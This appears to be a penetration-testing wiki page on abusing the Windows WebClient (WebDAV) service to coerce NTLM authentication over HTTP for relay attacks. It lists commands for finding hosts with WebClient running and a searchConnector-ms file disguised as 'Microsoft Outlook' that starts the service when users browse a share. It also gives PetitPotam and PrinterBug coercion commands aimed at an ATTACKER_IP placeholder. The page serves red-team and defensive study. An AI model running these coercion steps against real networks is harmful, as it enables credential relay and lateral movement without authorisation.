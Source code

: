 # WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP. ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. **It allows attackers to elicit authentications made over HTTP instead of SMB**, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organisations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
crackmapexec smb targets -u user -p password -M webdav
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Making a remote system start the WebClient service can be done with a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```
{% endhint %}

### Abuse

&#x20;Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

{% hint style="info" %}
To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to should be considered in the intranet zone. One way to do it is to use the NetBIOS name of the attacker machine instead of its IP address.
{% endhint %}

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
SpoolSample.exe "ATTACKER_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
```

## Resources

{% embed url="https://pentestlab.blog/2021/10/20/lateral-movement-webclient" %}

{% embed url="https://www.webdavsystem.com/server/access/windows" %}
